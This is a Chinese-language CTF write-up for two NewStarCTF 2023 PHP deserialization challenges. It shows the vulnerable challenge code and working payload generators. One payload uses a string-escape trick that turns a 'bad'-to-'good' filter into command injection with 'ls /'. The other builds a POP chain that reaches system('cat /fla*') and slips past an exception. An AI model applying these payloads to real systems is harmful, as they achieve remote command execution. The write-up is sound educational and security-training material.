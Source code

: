 ```yaml
---
title: NewStarCTF2023 week4 反序列化记录
date: 2023-10-24 11:36 +0800
categories: [CTF,WEB]
tags: [反序列化,web]
media_subpath: /assets
---
```




## 逃

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key'])))); 
```

这里传入的 `key` 先序列化，在反序列化。

这里的 序列化后 有一个waf 会将 bad 替换成 good，

我们先 正常 传入一个key，进行反序列化得到一个正常的payload

```
O:7:"GetFlag":2:{s:3:"key";s:4:"test";s:3:"cmd";s:6:"whoami";}
```

我们需要伪造的就是 `";s:3:"cmd";s:6:"whoami";}` 这一串，test后面的。

因为，bad 替换成 good 后，中间的 key 的 值 会变长，但是读取的字符串长度是固定的（`s:4:`），就可以让后面的部分`";s:3:"cmd";s:6:"whoami";}`不在反序列化的范围内。

如下面的图，经过waf后，第四段就不在反序列化的范围内了。

![image-20231024093431830](image-20231024093431830.png)



```php
<?php
$cmd = 'ls /';
// ";s:3:"cmd";s:6:"whoami";}
$payload = '";s:3:"cmd";s:' . strlen($cmd) . ':"' . $cmd . '";}';
$badstr =  str_repeat('bad', strlen($payload));
$key = $badstr . $payload;
echo $key;

# badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}
```

我们简单的理解一下，就可以写成一个 payload 生成器。

![image-20231024094642983](image-20231024094642983.png)

注：

```php
<?php

use GetFlag as GlobalGetFlag;

class GetFlag {
    public $key = 'badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}';
    public $cmd = "whoami";
}
// O:7:"GetFlag":2:{s:3:"key";N;s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:4:"ls /";}
// O:7:"GetFlag":2:{s:3:"key";s:96:"badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}";s:3:"cmd";s:6:"whoami";}

echo serialize(new GlobalGetFlag());
```





## More Fast（Exception绕过）

```php
<?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```

pop链

```
WEB::evil()
Pwn::__invoke[obj] --> WEB::evil()
Reverse::__get[func] --> Pwn::__invoke
Crypto::__toString[obj] --> Reverse::__get
Start::__destruct[errMsg] --> Crypto::__toString
```

```php
<?php

use Crypto as GlobalCrypto;
use Pwn as GlobalPwn;
use Reverse as GlobalReverse;
use Start as GlobalStart;
use Web as GlobalWeb;

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class myclass{}


$a = new GlobalWeb();
$a->func = 'system';
$a->var = 'cat /fla*';

$b = new GlobalPwn();
$c = new GlobalReverse();
$d = new GlobalCrypto();
$e = new GlobalStart();

$b->obj = $a;
$c->func = $b;
$d->obj = $c;
$e->errMsg = $d;


$payload = serialize(array($e, null));
$payload = str_replace('i:1;N;}', 'i:0;N;}', $payload);
echo $payload;
```



![image-20231024112410706](image-20231024112410706.png)



![image-20231024112832877](image-20231024112832877.png)
